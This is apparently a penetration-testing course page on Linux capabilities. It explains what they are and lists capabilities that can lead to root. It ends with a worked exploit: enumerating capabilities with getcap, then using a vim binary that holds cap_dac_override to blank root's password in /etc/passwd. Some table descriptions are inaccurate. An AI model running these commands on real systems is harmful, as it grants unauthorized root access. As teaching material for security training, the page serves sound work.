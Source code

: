 Breakdown: 

Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted. This allows for more fine-grained control over which processes have access to certain privileges, making it more secure than the traditional Unix model of granting privileges to users and groups.

One common vulnerability is using capabilities to grant privileges to processes that are not adequately sandboxed or isolated from other processes, allowing us to escalate their privileges and gain access to sensitive information or perform unauthorised actions. Another potential vulnerability is the misuse or overuse of capabilities, which can result in processes having more privileges than they need. This can create unnecessary security risks, as we could exploit these privileges to gain access to sensitive information or perform unauthorised actions.

When capabilities are set for a binary, it means that the binary will be able to perform specific actions that it would not be able to perform without the capabilities. For example, if the `cap_net_bind_service` capability is set for a binary, the binary will be able to bind to network ports, which is a privilege usually restricted.

Some capabilities, such as `cap_sys_admin`, which allows an executable to perform actions with administrative privileges, can be dangerous if they are not used properly. For example, we could exploit them to escalate their privileges, gain access to sensitive information, or perform unauthorized actions. Therefore, it is crucial to set these types of capabilities for properly sandboxed and isolated executables and avoid granting them unnecessarily.

|**Capability**|**Description**|
|---|---|
|`cap_sys_admin`|Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.|
|`cap_sys_chroot`|Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.|
|`cap_sys_ptrace`|Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.|
|`cap_sys_nice`|Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.|
|`cap_sys_time`|Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.|
|`cap_sys_resource`|Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.|
|`cap_sys_module`|Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.|
|`cap_net_bind_service`|Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.|

When a binary is executed with capabilities, it can perform the actions that the capabilities allow. However, it will not be able to perform any actions not allowed by the capabilities. This allows for more fine-grained control over the binary's privileges and can help prevent security vulnerabilities and unauthorised access to sensitive information.

When using the `setcap` command to set capabilities for an executable in Linux, we need to specify the capability we want to set and the value we want to assign. The values we use will depend on the specific capability we are setting and the privileges we want to grant to the executable.

Here are some examples of values that we can use with the `setcap` command, along with a brief description of what they do:

|**Capability Values**|**Description**|
|---|---|
|`=`|This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.|
|`+ep`|This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.|
|`+ei`|This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.|
|`+p`|This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.|

Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

|**Capability**|**Desciption**|
|---|---|
|`cap_setuid`|Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.|
|`cap_setgid`|Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.|
|`cap_sys_admin`|This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems.|
|`cap_dac_override`|Allows bypassing of file read, write, and execute permission checks.|

Enumerating Capabilities: To enumerate all existing capabilities for all existing binary executables on a Linux system, we can use the following command:

```shell-session
cyberslut@htb[/htb]$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

This one-liner uses the `find` command to search for all binary executables in the directories where they are typically located and then uses the `-exec` flag to run the `getcap` command on each, showing the capabilities that have been set for that binary. The output of this command will show a list of all binary executables on the system, along with the capabilities that have been set for each.

Exploitation
If we gained access to the system with a low-privilege account, then discovered the `cap_dac_override` capability:


```shell-session
cyberslut@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

For example, the `/usr/bin/vim.basic` binary is run without special privileges, such as with `sudo`. However, because the binary has the `cap_dac_override` capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the `cap_dac_override` capability and perform tasks that require this capability.

Let us take a look at the `/etc/passwd` file where the user `root` is specified:

```shell-session
cyberslut@htb[/htb]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

```shell-session
cyberslut@htb[/htb]$ /usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:

```shell-session
cyberslut@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
cyberslut@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.